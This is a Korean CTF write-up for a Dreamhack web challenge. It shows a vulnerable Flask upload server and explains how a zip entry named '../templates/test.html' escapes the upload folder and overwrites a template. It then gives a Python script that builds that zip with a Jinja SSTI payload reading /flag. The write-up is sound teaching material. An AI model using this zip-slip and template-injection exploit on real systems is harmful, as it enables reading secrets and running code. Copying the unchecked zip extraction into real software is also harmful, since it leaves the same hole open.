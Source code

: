```yaml
---
layout: single
title: "[Dreamhack] 거북이 write-up"
date: 2025-08-26 20:00 +0900
categories: 
    - WEB-write-up
tag:
typora-root-url: ../
toc: true
toc_sticky: true
toc_label: 목차
author_profile: true
comment: true
sidebar:
    nav: "docs"
---
```


## [Dreamhack] 거북이

### 😁 문제 설명

- 집 앞에서 거북이를 주워 어항에 넣어두었는데, 다음 날 보니 사라졌습니다.
  “어항이 높은데… 대체 어떻게 빠져나간 거지?”

<br>

### ✏️ 풀이

문제에 접속하면 파일 업로드 기능이 존재한다.

![image-20250822161936863](/images/2025-08-21-거북이/image-20250822161936863.png)

<br>

아래 소스 코드를 보면 파일을 업로드할 때 /uploads 경로로 파일이 업로드된다. 파일은 /uploads 경로에 숫자로 업로드되고 zip로 업로드하면 경로가 포함되면 /uploads/~~/test.html 이런식으로 업로드 되는 것 같다.

```python
app = Flask(__name__)
UPLOAD_DIR = Path("./uploads").resolve()
UPLOAD_DIR.mkdir(parents=True, exist_ok=True)
count = 1

@app.route("/", methods=["GET"])
def main():   
    return render_template('upload.html')
    
@app.route("/upload", methods=["POST"])
def upload():
    global count
    if "file" not in request.files:
        return jsonify(ok=False, error="no file"), 400

    f = request.files["file"]
    if f.filename == "":
        return jsonify(ok=False, error="empty filename"), 400

    if (f.filename or "").lower().endswith(".zip") or "zip" in (f.content_type or "").lower():
        data = f.read()
        zf = zipfile.ZipFile(io.BytesIO(data))
        names = []
        for info in zf.infolist():
            target = UPLOAD_DIR / info.filename
            if info.is_dir():
                target.mkdir(parents=True, exist_ok=True)
            else:
                target.parent.mkdir(parents=True, exist_ok=True)
                with zf.open(info) as src, open(target, "wb") as dst:
                    shutil.copyfileobj(src, dst)
            names.append(info.filename)
        return jsonify(ok=True, saved=names)
    
    ext = Path(f.filename).suffix.lower()
    file_name = f"{count}{ext}" if ext else f"{count}"
    count += 1
    
    out = UPLOAD_DIR / file_name
    out.parent.mkdir(parents=True, exist_ok=True)
    f.save(out)
    return jsonify(ok=True, saved=str(file_name))    
    
@app.route("/test.html", methods=["GET"])
def test_page():
    return render_template("test.html")
    
@app.route("/uploads/<path:filename>")
def serve_uploads(filename):
    return send_from_directory(UPLOAD_DIR, filename, as_attachment=False)
    
app.config.update(PROPAGATE_EXCEPTIONS=False)

@app.errorhandler(Exception)
def _all_errors_to_400(e):
    return jsonify(ok=False, error="bad request"), 400

@app.errorhandler(HTTPException)
def _http_errors_to_400(e):
    return jsonify(ok=False, error="bad request"), 400
    
if __name__ == "__main__":
    app.run(host="0.0.0.0", port=5000, debug=True)
```

<br>

업로드할 때 아래 소스 코드를 보면 zip를 업로드할 때 파일 안의 이름에 대해서 검증을 제대로 하지 않아서 `../` 를 사용할 수 있다는 것을 알 수 있다.

```python
    if (f.filename or "").lower().endswith(".zip") or "zip" in (f.content_type or "").lower():
        data = f.read()
        zf = zipfile.ZipFile(io.BytesIO(data))
        names = []
        for info in zf.infolist():
            target = UPLOAD_DIR / info.filename
            if info.is_dir():
                target.mkdir(parents=True, exist_ok=True)
            else:
                target.parent.mkdir(parents=True, exist_ok=True)
                with zf.open(info) as src, open(target, "wb") as dst:
                    shutil.copyfileobj(src, dst)
            names.append(info.filename)
        return jsonify(ok=True, saved=names)
```

<br>

Dockerfile을 봤을때 flag.txt를 /flag에 저장하였고, jinja SSTI로 flag를 읽기 위해서는 render_template 함수를 사용하는 곳이 test.html 밖에 없기 때문에 이를 덮어야 한다.

```python
@app.route("/test.html", methods=["GET"])
def test_page():
    return render_template("test.html")
```

<br>

/test.html을 덮어쓰기 위해서 ../로 /uploads 경로를 탈출하고 /templates/test.html 파일을 덮을 수 있다. flag는 /flag에 위치해 있기 때문에 SSTI payload가 포함된 test.html을 zip로 압축해 업로드하면 된다.

```python
import zipfile

payload = "{{ url_for.__globals__['__builtins__']['open']('/flag').read() }}"
target = "../templates/test.html"

with zipfile.ZipFile("exploit.zip", "w", zipfile.ZIP_DEFLATED) as z:
    z.writestr(target, payload)
```

![image-20250826202637777](/images/2025-08-25-거북이/image-20250826202637777.png)